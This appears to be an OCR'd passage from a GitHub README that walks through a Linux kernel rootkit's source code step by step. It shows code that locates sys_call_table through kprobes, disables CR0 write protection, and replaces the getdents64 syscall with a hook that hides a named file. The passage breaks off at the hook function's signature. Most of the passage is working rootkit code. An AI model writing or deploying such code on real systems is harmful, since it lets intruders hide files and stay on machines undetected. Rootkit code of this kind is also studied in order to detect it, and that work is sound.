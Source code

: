 ```
1) Find the Syscalls Table:

The find_syscall_table function uses the kprobes module to find the address of the kernel syscall table (sys_call_table).

unsigned long *find_syscall_table(void)
{
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;

    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    __syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    return __syscall_table;
}
2) Unprotect Memory

The unprotect_memory function disables write protection on the page containing the syscall table, allowing the rootkit to modify the syscall table.

static inline void unprotect_memory(void)
{
    write_cr0_forced(cr0 & ~0x00010000);
}
3) Replace the Original Function

In ghost_init, the address of the original getdents64 syscall is saved and replaced with the address of the hook function (hook_getdents64).


static int __init ghost_init(void)
{
    __syscall_table = find_syscall_table();
    if (!__syscall_table) {
        printk(KERN_INFO "Error, syscall_table not found");
        return -1;
    }

    cr0 = read_cr0();
    orig_getdents64 = (void *)__syscall_table[MY_NR_getdents];
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)hook_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit loaded: Syscall hooked\n");
    return 0;
}
4) Protect Memory

After replacement, write protection is restored.

static inline void protect_memory(void)
{
    write_cr0_forced(cr0);
}
5) Interception and Manipulation

The hook function hook_getdents64 intercepts calls to getdents64, checks file names, and hides any file named file_to_hide.

asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
```